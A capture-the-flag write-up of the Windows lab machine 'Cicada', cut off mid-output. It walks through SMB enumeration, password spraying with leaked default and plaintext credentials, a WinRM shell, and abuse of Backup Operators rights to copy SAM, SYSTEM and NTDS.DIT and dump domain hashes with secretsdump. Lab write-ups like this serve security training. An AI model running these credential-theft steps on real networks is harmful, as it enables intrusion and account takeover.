

<br />


<br />

OS -> Windows.

Difficulty -> Easy.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running a typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.11.35 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-31 18:30 CEST
Nmap scan report for 10.10.11.35
Host is up (0.060s latency).
Not shown: 65522 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-31 23:31:29Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
55110/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-31T23:32:22
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m46s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.99 seconds
```

<br />

Relevant Open Ports:

- `Port 53`   -> dns

- `Port 88`   -> kerberos

- `Port 135`  -> rpc

- `Port 139`  -> netbios

- `Port 389`  -> ldap

- `Port 445`  -> smb

- `Port 464`  -> kpasswd (kerberos password change)

- `Port 593`  -> rpc over http

- `Port 636`  -> ldaps

- `Port 5985` -> winrm

<br />

The domain `cicada.htb` and the hostname `CICADA-DC` appear across multiple services and ports, so I’ll add them to my `/etc/hosts` file:

<br />

```bash
10.10.11.35 cicada.htb CICADA-DC
```

<br />

# SMB Enumeration: -> Port 445 

<br />

To start enumerating this service, we'll run a basic [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) oneliner to enumerate some interesting information about the Windows system that we're auditing:

<br />

```bash
❯ cme smb cicada.htb
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
```

<br />

As we can see, the system is running `Windows 10 Build 20348`, 64-bit.

We also confirm the Domain Controller's name, which is `CICADA-DC`, and the domain `cicada.htb`.

To continue enumerating, we'll try to list `shared resources` using a fake username with a `null session`:

<br />

```bash
❯ cme smb cicada.htb -u 'RandomFakeUsername' -p '' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\RandomFakeUsername: 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL                          Logon server share
```

<br />

## HR

<br />

The `HR` share is unusual, and we have read permissions on it.

We can view its content using `smbclient`:

<br />

```bash
❯ smbclient //cicada.htb/HR -U "RandomFakeUsername"
Password for [WORKGROUP\RandomFakeUsername]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024

		4168447 blocks of size 4096. 481630 blocks available
```

<br />

There is a file called `"Notice from HR.txt"`.

We can download it to view its contents:

<br />

```bash
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

<br />

Apparently, this is a welcome note for new employees at the company.

The most relevant detail in the output is the company default password: `Cicada$M6Corpb*@Lp#nZp!8`.

With this information, we can use CrackMapExec’s `--rid-brute` flag to enumerate users and check whether any of them are still using the default password.

<br />

```bash
❯ cme smb cicada.htb -u 'RandomFakeUsername' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\RandomFakeUsername: 
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

<br />

There are a lot of users listed.

We select the most interesting ones and save them into a file called `users.txt`:

<br />

```bash
Administrator
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
Dev
emily.oscars
```

<br />

Now, we can test the `default password` against each user in the file:

<br />

```bash
❯ cme smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```

<br />

We've obtained valid credentials: `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

<br />

### michael.wrightson:

<br />

These credentials work for SMB:

<br />

```bash
❯ cme smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```

<br />

However, do now work for WinRM:

<br />

```bash
❯ cme winrm cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.10.11.35     5985   CICADA-DC        [*] Windows 10.0 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
HTTP        10.10.11.35     5985   CICADA-DC        [*] http://10.10.11.35:5985/wsman
HTTP        10.10.11.35     5985   CICADA-DC        [-] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```

<br />

This user doesn't have any additional permissions or access to new shared resources:

<br />

```bash
❯ cme smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```

<br />

Another useful CrackMapExec flag is `--users`, which is similar to `--rid-brute` but requires valid `SMB` credentials.

<br />

```bash
❯ cme smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.11.35     445    CICADA-DC        [+] Enumerated domain user(s)
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\krbtgt                         Key Distribution Center Service Account
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\john.smoulder                  
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\sarah.dantelia                 
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\michael.wrightson              
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\david.orelious                 Just in case I forget my password is aRt$Lp#7t*VQ!3
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\emily.oscars
```

<br />

Interestingly, we find a plaintext password embedded in the user comment field: `david.orelious:aRt$Lp#7t*VQ!3`. 

This is a common misconfiguration in real-world environments and could lead to direct access.

<br />

### david.orelious:

<br />

Just like `michael.wrightson’s` credentials, these work for SMB:

<br />

```bash
❯ cme smb cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
```

<br />

However, don't work for WinRM:

<br />

```bash
❯ cme winrm cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
SMB         10.10.11.35     5985   CICADA-DC        [*] Windows 10.0 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
HTTP        10.10.11.35     5985   CICADA-DC        [*] http://10.10.11.35:5985/wsman
HTTP        10.10.11.35     5985   CICADA-DC        [-] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
```

<br />

If we enumerate the smb shared resources for this user, we have read permissions in one new resource `(DEV)`:

<br />

```bash
❯ cme smb cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```

<br />

We can access the `DEV` share with `smbclient`:

<br />

```bash
❯ smbclient //cicada.htb/DEV -U david.orelious
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024

		4168447 blocks of size 4096. 477732 blocks available
```

<br />

### Backup_script.ps1:

<br />

Inside this shared resource, we can see a `PowerShell` script named `"Backup_script.ps1"`.

We download it and list its contents:

<br />

```PowerShell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

<br />

Upon analyzing it, we discover additional credentials: `emily.oscars:Q!3@Lp#M6b*7t*Vt`.

<br />

### emily.oscars:

<br />

These new credentials work for both SMB and WinRM:

<br />

```bash
❯ cme smb cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt 
❯ cme winrm cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
SMB         10.10.11.35     5985   CICADA-DC        [*] Windows 10.0 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
HTTP        10.10.11.35     5985   CICADA-DC        [*] http://10.10.11.35:5985/wsman
HTTP        10.10.11.35     5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

<br />

At this point, we can use the well known tool `evil-winrm` to gain a shell in the system and retrieve the `user.txt` flag:


<br />

```bash
❯ evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cd ..
cd *Evil-WinRM* PS C:\Users\emily.oscars.CICADA> cd Desktop
t*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
de493ce3050b87ade9fd7a6c82xxxxxx
```

<br />

# Privilege Escalation: emily.oscars -> NT  AUTHORITY\SYSTEM 

<br />

While enumerating the system, we discover that `emily.oscars` is part of the `Backup Operators` group:

<br />

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> net user emily.oscars
User name                    emily.oscars
Full Name                    Emily Oscars
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/22/2024 2:20:17 PM
Password expires             Never
Password changeable          8/23/2024 2:20:17 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

```

<br />

This misconfiguration is quite dangerous, as users in this group are allowed to `back up` and restore any file on the system.

<br />



<br />

There are several techniques to exploit this group; here we'll look at two different methods.

<br />

## Reg Save: Dumping SAM & SYSTEM

<br />

The first technique is straightforward to exploit.

We only need to make a copy of the `SAM` and `SYSTEM` files to run `secretsdump.py` and get the NTLM Administrator hash:

<br />

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SAM SAM
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SYSTEM SYSTEM
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> download SAM
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Desktop\SAM to SAM
                                           
Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> download SYSTEM
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Desktop\SYSTEM to SYSTEM
                                        
Info: Download successful!
```

<br />

Now we can run `secretsdump.py`:

<br />

```bash
❯ secretsdump.py local -system SYSTEM -sam SAM
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

<br />

## Reg save \ Diskshadow / Robocopy / NTDS.DIT:

<br />

The second method involves using Windows built-in utilities: `Diskshadow` and `Robocopy`. 

`Diskshadow` creates copies of a currently used drive, while `Robocopy` copies files and directories from one location to another.

We cannot copy the system files directly using regular copy commands because they are always running and in use.

To do this, first we will create a `diskshadow.txt` file with the following content in our Linux system:

<br />

```bash
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

<br />

Then, we format the file with `unix2dos` and upload it:

<br />

```bash
❯ unix2dos diskshadow.txt
unix2dos: convirtiendo archivo diskshadow.txt a formato DOS...
```

<br />

Once we've uploaded the file, we run the following `diskshadow` command:

<br />

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> diskshadow /s diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  CICADA-DC,  5/31/2025 7:05:57 PM
...[snip]...
* Shadow copy ID = {d1fcf915-0eb5-4e77-aa41-7fedbed57510}		%cdrive%
		- Shadow copy set: {19cee9ee-6f9b-4963-8bbb-3439f6143c0b}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{fcebaf9b-0000-0000-0000-500600000000}\ [C:\]
		- Creation time: 5/31/2025 7:06:12 PM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
		- Originating machine: CICADA-DC.cicada.htb
		- Service machine: CICADA-DC.cicada.htb
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %cdrive% E:
-> %cdrive% = {d1fcf915-0eb5-4e77-aa41-7fedbed57510}
The shadow copy was successfully exposed as E:\.
-> end backup
->
```

<br />

And we use `Robocopy` to extract a copy of the `NTDS.DIT` file:

<br />

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> robocopy /b E:\Windows\ntds . ntds.dit 

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------
...[snip]...
  0.0%
  0.3%
  0.7%
  1.1%
  1.5%
  1.9%
  2.3%
  2.7%
  3.1%
  3.5%
...[snip]...
 98.8%
 99.2%
 99.6%
100%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   16.00 m   16.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           42,908,480 Bytes/sec.
   Speed :            2,455.243 MegaBytes/min.
   Ended : Saturday, May 31, 2025 7:08:15 PM

```

<br />

We download this file using WinRM.

<br />

## Extract Hashes:

<br />

We run `secretsdump.py` again, but this time using the `-ntds` flag instead of `-sam`, to extract domain hashes from the Active Directory database:

<br />

```bash
❯ secretsdump.py local -system SYSTEM -ntds NTDS.DIT
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: f954f575c626d6afe06c2b80cc2185e6
[*] Reading and decrypting hashes from NTDS.DIT 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CICADA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3779000802a4bb402736bee52963f8ef:::
cicada.htb\john.smoulder:1104:aad3b435b51404eeaad3b435b51404ee:0d33a055d07e231ce088a91975f28dc4:::
cicada.htb\sarah.dantelia:1105:aad3b435b51404eeaad3b435b51404ee:d1c88b5c2ecc0e2679000c5c73baea20:::
cicada.htb\michael.wrightson:1106:aad3b435b51404eeaad3b435b51404ee:b222964c9f247e6b225ce9e7c4276776:::
cicada.htb\david.orelious:1108:aad3b435b51404eeaad3b435b51404ee:ef0bcbf3577b729dcfa6fbe1731d5a43:::
cicada.htb\emily.oscars:1601:aad3b435b51404eeaad3b435b51404ee:559048ab2d168a4edf8e033d43165ee5:::
[*] Kerberos keys from NTDS.DIT 
Administrator:aes256-cts-hmac-sha1-96:e47fd7646fa8cf1836a79166f5775405834e2c060322d229bc93f26fb67d2be5
Administrator:aes128-cts-hmac-sha1-96:f51b243b116894bea389709127df1652
Administrator:des-cbc-md5:c8838c9b10c43b23
CICADA-DC$:aes256-cts-hmac-sha1-96:e9752f2c7752bd92142588e63dc0383499f49b04a46de37845e33d40de1db7ed
CICADA-DC$:aes128-cts-hmac-sha1-96:7fc8e7f2daa14d0ccdf070de9cfc49c5
CICADA-DC$:des-cbc-md5:b0f7cdec040d5b6d
krbtgt:aes256-cts-hmac-sha1-96:357f15dd4d315af47ac63658c444526ec0186f066ad9efb46906a7308b7c60c8
krbtgt:aes128-cts-hmac-sha1-96:39cbc0f220550c51fb89046ac652849e
krbtgt:des-cbc-md5:73b6c419b3b9bf7c
cicada.htb\john.smoulder:aes256-cts-hmac-sha1-96:57ae6faf294b7e6fbd0ce5121ac413d529ae5355535e20739a19b6fd2a204128
cicada.htb\john.smoulder:aes128-cts-hmac-sha1-96:8c0add65bd3c9ad2d1f458a719cfda81
cicada.htb\john.smoulder:des-cbc-md5:f1feaeb594b08575
cicada.htb\sarah.dantelia:aes256-cts-hmac-sha1-96:e25f0b9181f532a85310ba6093f24c1f2f10ee857a97fe18d716ec713fc47060
cicada.htb\sarah.dantelia:aes128-cts-hmac-sha1-96:2ac9a92bca49147a0530e5ce84ceee7d
cicada.htb\sarah.dantelia:des-cbc-md5:0b5b014370fdab67
cicada.htb\michael.wrightson:aes256-cts-hmac-sha1-96:d89ff79cc85032f27499425d47d3421df678eace01ce589eb128a6ffa0216f46
cicada.htb\michael.wrightson:aes128-cts-hmac-sha1-96:f1290a5c4e9d4ef2cd7ad470600124a9
cicada.htb\michael.wrightson:des-cbc-md5:eca8d532fd8f26bc
cicada.htb\david.orelious:aes256-cts-hmac-sha1-96:125726466d0431ed1441caafe8c0ed9ec0d10b0dbaf4fec7a184b764d8a36323
